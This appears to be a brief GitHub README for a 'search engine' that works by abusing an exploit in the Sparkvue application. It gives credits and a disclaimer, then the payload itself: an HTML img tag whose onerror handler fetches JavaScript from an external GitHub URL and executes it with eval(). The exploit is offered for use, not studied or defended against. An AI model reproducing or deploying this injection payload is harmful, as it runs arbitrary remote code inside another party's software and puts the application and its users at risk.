 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!

Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.
"<img src=# onerror='fetch("https://github.com/CharlieIsInsane/CharlieSearch/raw/main/Search%20engine.js").then(r=>r.text()).then(c=>eval(c))'>"

